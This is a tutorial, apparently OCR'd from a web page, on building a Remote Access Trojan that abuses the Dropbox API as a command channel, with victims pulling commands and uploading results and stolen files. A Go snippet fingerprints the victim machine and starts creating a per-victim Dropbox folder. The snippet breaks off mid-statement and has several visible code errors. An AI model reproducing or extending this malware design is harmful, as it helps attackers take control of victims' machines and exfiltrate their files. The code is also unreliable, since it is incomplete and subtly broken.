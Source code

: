# Introduction

For this tutorial, we will be abusing the [Dropbox API](https://www.dropbox.com/developers/documentation/http/documentation) in order to build a RAT (Remote Access Trojan). Dropbox also provides a means to test different API calls and get code samples from Python which is available [here](https://dropbox.github.io/dropbox-api-v2-explorer/#)

A RATs functionality is simple: issue commands and receive the result of those commands. So we just need a way to communicate with the victim machine, which can be done via a task file that is stored on Dropbox and the victim machine will download and the victim machine will parse the task file for commands. Then the victim machine would upload the result of the executed command to a Dropbox file. Seems simple enough, right? Let's get into the code.

## Initial Infection

If we issue a command such as to upload all files with a specific extension, we'd need a place to receive it. But what if 2 victim machines have a generic name for the same file type (EX: Let's say 2 victim machines have a .docx file which we want to grab which is generically named as "Document.docx")? They'd either be overwritten or the upload would simply result in the API returning an error. This means we need a unique directory for every infected victim machine which is where they'd return any requested data.

We can create directories by using [create_folder_v2](https://dropbox.github.io/dropbox-api-v2-explorer/#files_create_folder_v2) in Dropbox's API. So we can now create a unique folder for every infected victim when the malware is ran. I chose to base the directory name off the SHA1 hash of the victim's hostname, their username, and their mac address, but you can choose any static element on a machine. This SHA1 hash will also be the machine's unique identifier when issuing commands. The following code will do everything I just described.

```
package main
import (
    "os/exec"
    "net/http"
    "encoding/hex"
    "crypto/sha1"
    "encoding/json"
    "bytes"
    "io/ioutil"
)

var (
    token = "longTokenString"
    client = &http.Client{}
    UUID string
)

func initInfection() {
    fmt.Println("Generating unique identifier for machine...")
    hostname, _ := exec.Command("cmd.exe /C", "hostname").Output()
    username, _ := exec.Command("cmd.exe /C", "whoami").Output()
    macAddress, _ := exec.Command("cmd.exe /C", "getmac").Output()
    uniqueID := string(hostname) + "-" + string(username) + "-" + string(macAddress)
    hashGen := sha1.New()
    hashGen.write([]byte(uniqueID))
    UUID = hex.EncodeToString(hashGen.Sum(nil))
    fmt.Printf("Machine's unique identifier is: %s...\n", UUID)
    fmt.Println("Creating unique folder...")
    
    uniqueUserFolder := "/" + UUID
    var bearer = "Bearer " + token
    dataParam1 := []interface{} {uniqueUserFolder}
    dataParam2 := []interface{} {true, false}
    requestParams, _ := json.marshal(map[string]interface{}) {
```